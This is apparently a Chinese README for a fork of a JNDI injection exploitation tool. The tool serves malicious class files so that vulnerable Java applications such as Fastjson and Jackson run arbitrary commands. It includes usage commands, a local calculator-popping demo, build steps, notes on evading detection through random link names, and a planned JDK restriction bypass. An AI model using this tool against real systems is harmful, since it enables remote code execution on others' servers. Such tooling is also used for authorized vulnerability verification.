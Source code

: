 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit
## 使用

可执行程序为jar包，在命令行中运行以下命令：

```shell
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

其中:

- **-C** - 远程class文件中要执行的命令。

  （可选项 , 默认命令是mac下打开计算器，即"open /Applications/Calculator.app"）

- **-A** - 服务器地址，可以是IP地址或者域名。

  （可选项 , 默认地址是第一个网卡地址）

注意:

- 要确保 **1099**、**1389**、**8180**端口可用，不被其他程序占用。

  或者你也可以在run.ServerStart类26~28行更改默认端口。

- 命令会被作为参数传入**Runtime.getRuntime().exec()**，

  所以需要确保命令传入exec()方法可执行。
  
  **bash等可在shell直接执行的相关命令需要加双引号，比如说 java -jar JNDI.jar -C "bash -c ..."**

## 示例

### 本地演示：

1. 启动 JNDI-Injection-Exploit：

   ```shell
   $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
   ```

    截图：
    ![](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/1.png)


2. 我们需要把第一步中生成的 JNDI链接注入到存在漏洞的应用环境中，方便解释用如下代码模仿漏洞环境：

   ```java
   public static void main(String[] args) throws Exception{
       InitialContext ctx = new InitialContext();
       ctx.lookup("rmi://127.0.0.1/fgf4fp");
   }
   ```

   当上面代码运行后，应用便会执行相应命令，这里是弹出计算器，没截图，可以自己测一下。

   截图是工具的server端日志：

    ![](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/2.png)



## 安装

下面两种方法都可以得到Jar包

1. 从 [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases)直接下载最新的Jar。

2. 把源码下载到本地然后自行编译打包。（在Java1.7+ 、Java1.8+ 和 Maven 3.x+环境下测试可以）

   ```shell
   $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

## 工具实现

1. 首先生成的链接后面codebaseClass是6位随机的，这个是因为不希望让工具生成的链接本身成为一种特征被监控或拦截。
2. 服务器地址实际就是codebase地址，相比于marshalsec中的JNDI server来说，这个工具把JNDI server和HTTP server绑定到一起，并自动启动HTTP server返回相应class，更自动化了。
3. HTTP server基于jetty实现的，本质上是一个能下载文件的servlet，比较有意思的是我提前编译好class模板放到resource目录，然后servlet会读取class文件，使用ASM框架对读取的字节码进行修改，然后插入我们想要执行的命令，返回修改后的字节码。

## 待实现

- （已完成EL表达式绕过部分）在更高版本的JDK环境中trustURLCodebase变量为false，限制了远程类的加载，我会找时间把[JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass)这个项目的东西融入到本项目中，生成能绕过JDK限制JNDI链接。
- … ...
